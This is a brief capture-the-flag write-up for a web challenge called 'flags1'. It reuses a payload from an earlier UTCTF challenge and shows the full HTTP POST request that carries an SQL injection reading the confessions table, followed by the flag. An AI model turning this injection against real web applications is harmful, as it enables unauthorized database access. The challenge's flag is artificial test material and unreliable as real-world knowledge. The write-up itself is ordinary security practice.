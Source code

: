 # flags1
> Come submit your flags for all to see!

## About the Challenge
We were given a website and we need to find the flag there

![preview](images/preview.png)

We can input some random string and then our input will be displayed in the homepage

## How to Solve?
Actually this chall is literally the same with `UTCTF - Confessions` chall. So i tried to use the same payload to solved this chall

```
POST /sendflag HTTP/2
Host: flags.mc.ax
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.50 Safari/537.36
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 41

flag="); SELECT text FROM confessions; --
```

![flag](images/flag.png)

If you are still confused, you can refer to this [repository](https://github.com/utisss/UTCTF-23/tree/main/guppy/web-confession)

```
cursed{thank_you_for_the_flags}
```